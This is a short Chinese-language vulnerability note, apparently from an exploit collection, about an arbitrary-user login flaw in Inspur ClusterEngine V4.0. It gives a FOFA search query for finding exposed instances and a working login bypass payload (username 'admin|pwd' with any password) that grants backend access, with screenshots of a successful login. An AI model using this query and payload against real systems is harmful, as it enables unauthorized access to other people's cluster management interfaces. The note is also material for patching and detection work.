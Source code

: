# 浪潮ClusterEngineV4.0-任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

> [!NOTE]
>
> 浪潮ClusterEngineV4.0

## FOFA

> [!NOTE]
>
> title="TSCEV4.0"

## 漏洞复现

登录页面如下

![](浪潮ClusterEngineV4.0-任意用户登录漏洞.assets/1627363130235759.jpg)

```
USER： admin|pwd
PASS:  任意
```

成功登陆后台

> [!NOTE]
>
> 部分功能是无法使用的

![](浪潮ClusterEngineV4.0-任意用户登录漏洞.assets/162736313044843.jpg)